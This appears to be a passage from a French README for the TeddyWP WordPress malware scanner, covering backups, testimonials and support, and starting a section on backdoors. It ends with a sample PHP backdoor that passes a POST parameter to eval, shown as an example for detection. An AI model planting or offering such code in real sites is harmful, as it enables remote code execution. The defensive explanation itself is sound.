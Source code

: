 #### Sauvegarde Préalable
```bash
# OBLIGATOIRE : Toujours sauvegarder avant scan/nettoyage
tar -czf backup-pre-scan-$(date +%Y%m%d).tar.gz /var/www/wordpress/
```

### 🎯 Témoignages d'Experts Utilisateurs

> *"Le Scanner TeddyWP a révolutionné notre workflow de sécurité. Nous avons détecté et nettoyé des infections que d'autres outils avaient manquées. Indispensable !"*  
> **- Jean M., Administrateur Système, Agency Web Paris**

> *"Interface claire, détection précise, nettoyage intelligent. Ce scanner nous fait gagner des heures sur chaque intervention."*  
> **- Sarah L., Développeuse WordPress, Freelance**

> *"Après avoir testé dizaines d'outils, le Scanner TeddyWP est celui qui combine le mieux efficacité et simplicité d'usage."*  
> **- Marc D., Expert Sécurité, ESN Lyon**

### 📞 Support et Assistance

#### Support Gratuit
- 📖 Documentation complète incluse
- 🎥 Tutoriels vidéo disponibles  
- 💬 Forum communauté active
- 🐛 Report de bugs via GitHub

#### Support Professionnel
- 🚨 **Intervention d'urgence** si le scanner détecte une infection complexe
- 🛠️ **Nettoyage manuel** pour cas non résolus automatiquement  
- 🎓 **Formation équipe** à l'utilisation avancée
- 📞 **[Contactez Teddy l'expert WordPress](https://teddywp.com/depannage-wordpress/)** pour assistance prioritaire

---

## Comprendre les menaces malware

### Types de malware WordPress les plus répandus

#### 1. Backdoors (Portes dérobées)
Les backdoors représentent **67% des infections WordPress** selon notre analyse de plus de 800 sites nettoyés avec le Scanner TeddyWP. Ces accès cachés permettent aux attaquants de :

```php
// Exemple de backdoor typique détecté par notre scanner
<?php
if(isset($_POST['cmd'])) {
    eval($_POST['cmd']);
}
?>
```
